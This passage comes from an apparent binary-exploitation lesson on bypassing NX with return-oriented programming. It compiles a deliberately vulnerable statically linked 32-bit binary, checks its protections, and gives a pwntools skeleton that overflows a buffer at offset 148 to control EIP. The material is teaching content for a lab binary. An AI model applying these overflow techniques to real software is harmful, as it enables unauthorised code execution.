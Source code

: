 Since the [binary][2] is not big enough to give us a decent number of ROP
gadgets, we will cheat a bit and compile the binary as a statically linked ELF.
This should include library code in the final executable and bulk up the size of
the binary. We also mark the writable regions of memory as non-executable.

```shell
gcc -m32 -fno-stack-protector -static -znoexecstack -o ./build/1_staticnx ./src/1_staticnx.c
```

We can verify that the binary has the NX protection enabled by using the
checksec script. We can also check that the file is statically compiled with
file.

```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$ checksec 1_staticnx
[*] '/vagrant/lessons/6_bypass_nx_rop/build/1_staticnx'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$ file 1_staticnx
1_staticnx: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=18a84fc7499b620b7453b9d37d7ba97dc356d7b2, not stripped
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$
```

## Obtaining EIP Control

First of all, we need to determine the offsets for EIP control. For the sake of
brevity, I will use the offset of 148 bytes. When you follow along in the
lesson, please do try obtaining the offset yourself. A rough skeleton [exploit
script][2] is given as follows:

```python
#!/usr/bin/python

from pwn import *

def main():
    # Start the process
    p = process("../build/1_staticnx")

    # Craft the payload
    payload = "A"*148 + p32(0xdeadc0de)
    payload = payload.ljust(1000, "\x00")

    # Print the process id
    raw_input(str(p.proc.pid))

    # Send the payload
    p.send(payload)

    # Transfer interaction to the user
    p.interactive()

if __name__ == '__main__':
    main()
```


[1]: ./src/1_staticnx.c
[2]: ./build/1_staticnx
[3]: ./scripts/1_skeleton.py
[4]: ./scripts/2_ropexploit.py
[5]: ./scripts/3_brokenrop.py
[6]: http://syscalls.kernelgrok.com/